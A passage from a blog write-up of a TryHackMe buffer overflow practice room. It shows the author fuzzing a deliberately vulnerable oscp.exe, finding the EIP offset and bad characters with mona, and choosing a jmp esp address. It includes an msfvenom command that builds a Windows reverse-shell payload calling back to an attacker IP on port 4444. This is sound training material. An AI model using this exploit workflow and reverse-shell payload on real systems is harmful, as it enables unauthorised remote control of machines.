print("Could not connect to " + ip + ":" + str(port))
sys.exit(0)
time.sleep(1)
We RDP into the machine once deployed and do the same old. Start Immunity, open oscp.exe and unpause the execution.
We run the script:
┌──(kali㉿kali)-[~/Documents/THM/bufferOverflowPrep]
└─$ python overflow2_fuzz.py
Fuzzing with 50 bytes
Fuzzing with 100 bytes
Fuzzing with 150 bytes
Fuzzing with 200 bytes
Fuzzing with 250 bytes
Fuzzing with 300 bytes
Fuzzing with 350 bytes
Fuzzing with 400 bytes
Fuzzing with 450 bytes
Fuzzing with 500 bytes
Fuzzing with 550 bytes
Fuzzing with 600 bytes
Fuzzing with 650 bytes
Could not connect to 10.10.98.134:1337
Right after 650 bytes it crashes. I’ll run it one more time to see if 600 makes it crash. It did not, and instead crashed at 700. So let’s say 650 is good.
We get a hold of the EIP
We need to generate a payload for our exploit script, we grab a copy of that script from the last task as well. Remember to update the prefix to OVERFLOW2.
We need our payload of 650 bytes but remember we need to add a bit of overhead let’s add another 400 bytes. let’s create that with the following command:
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1050
We use the ouput of that command to set the ‘payload’ variable of our exploit script. Restart the debugger and such and we run our exploit script.
Once we run our script we should see the debugger stops the execution Access Violation when executing [XXXXXXXX]
Now we need to run mona as follows: !mona findmsp -distance 1050:
The findmsp command will find all instances or certain references to a cyclic pattern (a.k.a. “Metasploit pattern”) in memory, registers, etc This command has an important requirement : you have to use a cyclic pattern to trigger a crash in your target application. Link to the manual

Remember we need to get the offset of EIP here, we are interested in the following line:
Log data, item 18 Address=0BADF00D Message= EIP contains normal pattern : 0x76413176 (offset 634)
We update the offset variable of our script with the value we found. Then we empty the payload variable and set our retn variable to the magic bees BBBB.
We save the changes to our script, restart everything again and run the exploit once more. We want proof we are overwritting our EIP correctly:

We test for bad characters
Now we need to look for bad characters. First we create a bytearray with Mona and by default we exclude the null byte: !mona bytearray -b "\x00".
Then, using our byteArray generator script we create an identical bytearray. With that generated we set the payload variable to the bytearray generated.
We restart everything and run our expliot. This time we need to take note of the ESP Register Address.

Now we can use mona again to find the bad chars by comparison: !mona compare -f C:\mona\oscp\bytearray.bin -a 01A1FA30

So we get the following bad characters not including the null byte 23 24 3c 3d 83 84 ba bb. This is where I messed up last time, I just assumed all values returned at this point were bad characters. We need to test them to avoid the same mistake.
Let’s remove the first one 23 and see if the rest are still being returned by mona as Bad Chars. For the sake of any eventual reader, I’ll do this without documenting every test. Just remove a badchar one by one from your payload, run and compare with mona. Be Aware that since we are modifying the payload the ESP register will point to a different address each time.
!mona compare -f C:\mona\oscp\bytearray.bin -a 0192FA30
- First Test: [ESP 0192FA30] 00 23 3c 3d 83 84 ba bb
From this test we can observe that 24 was not a bad chard and was just affected by 23 being a bad char. From now on, we’ll regenerate mona’s bytearray and we’ll remove the bad characters one by one to test they are really bad:
- Initial Set: [ESP 01A1FA30] 00 23 24 3c 3d 83 84 ba bb
- First Test: [ESP 0192FA30] 00 23 3c 3d 83 84 ba bb
- Second Test: [ESP 018AFA30] 00 23 3c 83 84 ba bb
- Third Test: [ESP 019CFA30] 00 23 3c 83 ba bb
- Fourth Test: [ESP 0196FA30] 00 23 3c 83 ba
Final Mona bytearray: !mona bytearray -b "\x00\x23\x3c\x83\xba"
There you have it, we’ve narrow down all possible badchars until we get a list of the recurrent codes and when we compare in Mora again we get no more badchars.
 It is safe to assume that these last codes
It is safe to assume that these last codes 23 3c 83 ba caused the ones that were initially returned along with them 24 3d 84 bb to be marked as bad too. But We know now that is not always the case, we’ve evolved a bit. And we start to value testing more. 😄
Finding a Jump point
Now we need to find ourselves a jump point, we do that with Mona and we also use the set of badchars we have identified: !mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
I’ve selected the second address in the list this time:

Log data, item 10 Address=625011BB Message= 0x625011bb : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
We use that address in our script inside the retn variable. Remember our second mistake from the first overflow practice. The address needs to be formatted as little endian. \xbb\x11\x50\x62.
We make ourselves a payload
We need a payload now, so we can reverse shell the hell out of this excercise. Using msfvenom we create the payload taking into account the set of bad chars:
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f py
We paste the output of msfvenom to the script and set payload = buf.
We add some NOP Sleds
We are almost there, we just need to add some NOP sleds and we are golden (unless I already fucked it up at some point yet again).
We exploit!
We restart everything one last time (for this task at least), we need to fire up a netcat listener as well. When we run the exploit we get our rev shell connection!

Straight to the point
From here we’ll just use the same process to resolve the rest of the OVERFLOW commands. I won’t be documenting those since it’ll end up being an INSANELY LARGE writeup. I think that having the process outlined and practiced twice should be enough for you and me to resolve the rest of the room. I’ll just be listing the results below.
TASK 3 - [oscp.exe - OVERFLOW3]
- OVERFLOW3 RESULTS:
- [OFFSET 1XXX]
- [BADCHARS 11 XX XX XX EE]
TASK 4 - [oscp.exe - OVERFLOW4]
- OVERFLOW4 RESULTS:
- [OFFSET 2XXX]
- [BADCHARS XX XD XX]
TASK 5 - [oscp.exe - OVERFLOW5]
- OVERFLOW5 RESULTS:
- [OFFSET 3XX]
- [BADCHARS XX 2F XX FX]
TASK 6 - [oscp.exe - OVERFLOW6]
- OVERFLOW6 RESULTS:
- [OFFSET XXX4]
- [BADCHARS 08 XX XX]
TASK 7 - [oscp.exe - OVERFLOW7]
- OVERFLOW7 RESULTS:
- [OFFSET 1XX6]
- [BADCHARS 8C XX XX XX]
TASK 8 - [oscp.exe - OVERFLOW8]
- OVERFLOW8 RESULTS:
- [OFFSET 1XX6]
- [BADCHARS 1D XX XX XX]
TASK 9 - [oscp.exe - OVERFLOW9]
- OVERFLOW9 RESULTS:
- [OFFSET 1XX4]
- [BADCHARS XX 3E XX EX]
Note: For this one I had to do a few tries to get all badchars.
TASK 10 - [oscp.exe - OVERFLOW10]
- OVERFLOW9 RESULTS:
- [OFFSET X37]
- [BADCHARS A0 XX BE XX XX]
That was a LONG room to go through, I had to stop several times along the way just to study a bit about buffer overflows, make mistakes, debug and retrace steps. But eventually I was able to finish the room. I still feel I need to practice a lot for this process to cement. Good thing the Offensive Pentesting path in TryHackMe has a lot more of these rooms to shape those skills. Check it out here
I hope you somehow enjoy this post, I certainly had a lot of fun creating it!
As usual, happy hacking.
comments powered by Disqus